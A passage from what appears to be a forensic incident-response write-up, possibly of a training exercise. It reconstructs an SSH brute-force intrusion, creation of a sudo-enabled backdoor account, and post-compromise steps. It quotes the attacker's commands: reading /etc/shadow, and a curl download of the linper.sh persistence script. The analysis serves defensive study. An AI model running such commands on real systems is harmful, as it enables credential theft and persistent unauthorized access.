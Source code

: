 **Attack Methodology:**
- **Parallel Connections:** Multiple simultaneous SSH connections from different ports
- **Account Enumeration:** Targeted common service accounts (backup, root)
- **Password Spraying:** Systematic credential testing
- **Session Validation:** Immediate disconnection after successful authentication test

### 5.2 Brute Force Success Indicators

**Failed Attempts Summary:**
```
06:31:33-34: 9 failed attempts against 'backup' account
06:31:39-41: 6 failed attempts against 'root' account
06:31:40: SUCCESSFUL authentication for root
06:31:40: Immediate disconnection (authentication test)
06:32:44: Manual interactive login established
```

**Technical Details:**
- **Connection Ports:** 46512, 46468, 46568, 46538, 46576, 46582 (backup), 46852, 46876, 46890 (root)
- **Success Port:** 34782 (initial), 53184 (interactive session)
- **Authentication Failures:** Multiple PAM authentication failures logged
- **Connection Management:** Quick disconnection after credential validation

---

## 6. Post-Compromise Activity Analysis

### 6.1 Persistence Establishment

**Account Creation Process:**
1. **Group Creation:** `cyberjunkie` group (GID=1002) created at 06:34:18
2. **User Creation:** `cyberjunkie` user (UID=1002) with /home/cyberjunkie directory and bash shell
3. **Password Assignment:** User password configured at 06:34:26
4. **Profile Setup:** User information updated via chfn at 06:34:31
5. **Privilege Escalation:** User added to sudo group at 06:35:15

### 6.2 Reconnaissance Activities

**Shadow File Access:**
- **Command:** `sudo /usr/bin/cat /etc/shadow`
- **Timestamp:** 06:37:57
- **Purpose:** Credential harvesting and privilege verification
- **User Context:** cyberjunkie with sudo privileges

### 6.3 Malicious Payload Deployment

**Script Download Attempt:**
- **URL:** `https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
- **Tool:** `linper.sh` (Linux Persistence script)
- **Command:** `sudo /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
- **Timestamp:** 06:39:38
- **Purpose:** Advanced persistence and post-exploitation capabilities

---